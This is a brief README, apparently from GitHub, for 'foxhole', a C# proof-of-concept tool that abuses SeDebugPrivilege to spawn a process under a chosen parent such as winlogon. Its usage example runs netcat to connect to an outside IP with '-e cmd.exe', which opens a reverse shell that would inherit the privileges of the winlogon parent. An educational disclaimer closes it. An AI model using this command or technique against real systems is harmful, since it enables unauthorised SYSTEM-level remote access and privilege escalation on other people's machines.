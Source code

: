 # foxhole
This C# code creates child process of parent process that you determine (SeDebugPrivelege PoC)

Usage example:
.\foxhole.exe -p winlogon -c "c:\temp\nc.exe 10.10.14.174 9998 -e cmd.exe"


TODO:
CI/CD
###
DISCLAIMER
Everything presented in this repository is for educational purposes only
